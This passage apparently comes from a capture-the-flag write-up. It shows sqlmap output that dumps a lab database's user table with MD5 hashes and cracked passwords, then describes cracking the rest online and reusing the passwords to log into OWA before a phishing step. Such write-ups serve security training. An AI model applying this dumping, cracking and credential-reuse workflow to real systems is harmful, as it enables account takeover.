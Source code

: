     [20:37:31] [INFO] starting 4 processes 
    [20:37:32] [INFO] cracked password 'barcelona' for user 'Malek'
    [20:37:34] [INFO] cracked password 'popcorn' for user 'Dumah'
    [20:37:34] [INFO] cracked password 'pussycatdolls' for user 'Ariel'
    [20:37:34] [INFO] cracked password 'santiago' for user 'Moebius'
    Database: secret
    Table: users
    [10 entries]
    +----------+--------------------------------------------------+
    | Username | Password                                         |
    +----------+--------------------------------------------------+
    | Kain     | 33903fbcc0b1046a09edfaa0a65e8f8c                 |
    | Raziel   | 719da165a626b4cf23b626896c213b84                 |
    | Ariel    | b9c2538d92362e0e18e52d0ee9ca0c6f (pussycatdolls) |
    | Dimitri  | d459f76a5eeeed0eca8ab4476c144ac4                 |
    | Magnus   | 370fc3559c9f0bff80543f2e1151c537                 |
    | Zephon   | 13fa8abd10eed98d89fd6fc678afaf94                 |
    | Turel    | d322dc36451587ea2994c84c9d9717a1                 |
    | Dumah    | 33da7a40473c1637f1a2e142f4925194 (popcorn)       |
    | Malek    | dea56e47f1c62c30b83b70eb281a6c39 (barcelona)     |
    | Moebius  | a6f30815a43f38ec6de95b9a9d74da37 (santiago)      |
    +----------+--------------------------------------------------+
    

Because I’m using `--batch`, it selects the default answer of “yes” for prompt
of if I want to try and crack the hashes, and cracks four of them.

### Crack Passwords

I don’t actually need more than these four, but no reason not to throw them
into [crackstation](https://crackstation.net/):

[![image-20220425165717839](https://0xdfimages.gitlab.io/img/image-20220425165717839.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220425165717839.png)

All but two break.

### Phishing

#### OWA Enumeration

The passwords for Kain, Ariel, and Magnus work to log into OWA, and each have
the same three emails from Administrator:

[![image-20220425165900340](https://0xdfimages.gitlab.io/img/image-20220425165900340.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220425165900340.png)
